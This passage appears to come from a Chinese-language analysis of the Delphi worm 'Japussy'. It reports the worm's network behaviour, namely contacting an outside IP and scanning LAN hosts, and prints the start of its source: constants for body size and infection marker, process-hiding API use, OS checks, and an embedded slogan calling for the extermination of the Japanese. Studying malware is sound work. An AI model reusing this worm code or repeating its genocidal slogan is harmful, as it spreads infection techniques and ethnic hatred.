 从监控结果可以看到，病毒会向 `61.131.208.210` 发送并接收信息，并不断尝试连接 `192.168.152.X` 即局域网中的其它计算机，我们可以总结出病毒的第八点行为：

- 向外发包，连接局域网中其他机器

### 源码分析

网上开源的代码绝大多数都是用 `Delphi` 编写的

病毒文件初始信息如下：

```
program Japussy;
uses
  Windows, SysUtils, Classes, Graphics, ShellAPI{, Registry};
const
  HeaderSize = 82432;                  //病毒体的大小
  IconOffset = $12EB8;                 //PE文件主图标的偏移量

  //在我的Delphi5 SP1上面编译得到的大小，其它版本的Delphi可能不同
  //查找2800000020的十六进制字符串可以找到主图标的偏移量

{
  HeaderSize = 38912;                  //Upx压缩过病毒体的大小
  IconOffset = $92BC;                  //Upx压缩过PE文件主图标的偏移量

  //Upx 1.24W 用法: upx -9 --8086 Japussy.exe
}
  IconSize   = $2E8;                   //PE文件主图标的大小--744字节
  IconTail   = IconOffset + IconSize;  //PE文件主图标的尾部
  ID         = $44444444;              //感染标记
```

垃圾码，以备写入

```
  //垃圾码，以备写入
  Catchword = 'If a race need to be killed out, it must be Yamato. ' +
              'If a country need to be destroyed, it must be Japan! ' +
              '*** W32.Japussy.Worm.A ***';
{$R *.RES}
function RegisterServiceProcess(dwProcessID, dwType: Integer): Integer; 
  stdcall; external 'Kernel32.dll'; //函数声明
var
  TmpFile: string;
  Si:      STARTUPINFO;
  Pi:      PROCESS_INFORMATION;
  IsJap:   Boolean = False; //日文操作系统标记
```

判断是否为 `Win9x`

```
{ 判断是否为Win9x }
function IsWin9x: Boolean;
var
  Ver: TOSVersionInfo;
begin
  Result := False;
  Ver.dwOSVersionInfoSize := SizeOf(TOSVersionInfo);
  if not GetVersionEx(Ver) then
    Exit;
  if (Ver.dwPlatformID = VER_PLATFORM_WIN32_WINDOWS) then //Win9x
    Result := True;
end;
```
